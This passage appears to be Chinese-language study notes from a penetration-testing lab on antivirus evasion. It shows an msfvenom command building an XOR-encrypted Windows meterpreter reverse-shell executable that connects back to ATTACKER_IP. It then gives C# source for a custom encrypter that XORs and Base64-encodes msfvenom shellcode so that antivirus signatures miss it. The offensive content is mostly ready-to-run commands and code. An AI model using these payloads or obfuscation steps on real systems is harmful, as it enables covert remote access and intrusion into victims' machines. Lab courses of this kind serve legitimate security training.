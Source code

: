 - **使用 XOR 加密**:
    
    Bash
    
    ```
    user@AttackBox$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=ATTACKER_IP LPORT=7788 -f exe --encrypt xor --encrypt-key "MyZekr3tKey***" -o xored-revshell.exe
    ```
    
    同样，这种由 `msfvenom` 直接生成的简单 XOR 加密载荷也极易被 AV 检测。

---

#### 创建自定义有效载荷以规避检测 (Creating Custom Payloads for Evasion)

克服标准工具检测的最佳方法是实现**自定义的编码或加密方案**，使 AV 难以通过已知签名或简单分析来识别载荷。有时，即使是简单技术的组合也可能有效。

##### 1. 示例：自定义 XOR + Base64 编码/解码

我们将结合 XOR 加密和 Base64 编码来处理由 `msfvenom` 生成的原始 C# 格式 Shellcode。

- 步骤 A: 编码器程序 (C# - Encrypter.cs)
    
    此程序接收原始 Shellcode，使用自定义密钥进行 XOR 加密，然后对结果进行 Base64 编码。
    
    C#
    
    ```
    using System;
    using System.Text; // For Encoding.ASCII
    
    namespace Encrypter
    {
        internal class Program
        {
            private static byte[] XorEncryptDecrypt(byte[] data, byte[] keyBytes)
            {
                byte[] result = new byte[data.Length];
                for (int i = 0; i < data.Length; i++)
                {
                    result[i] = (byte)(data[i] ^ keyBytes[i % keyBytes.Length]);
                }
                return result;
            }
    
            static void Main(string[] args)
            {
                string key = "THMK3y123!"; // 自定义 XOR 密钥
                byte[] keyBytes = Encoding.ASCII.GetBytes(key);
    
                // 原始 Shellcode (由 msfvenom -f csharp 生成，替换此处)
                byte[] buf = new byte[460] {
                    0xfc,0x48,0x83, /* ... (完整的 Shellcode 字节) ... */ ,0xda,0xff,0xd5
                };
    
                byte[] encoded = XorEncryptDecrypt(buf, keyBytes); // XOR 加密
                Console.WriteLine(Convert.ToBase64String(encoded)); // Base64 编码并输出
            }
        }
    }
    ```
    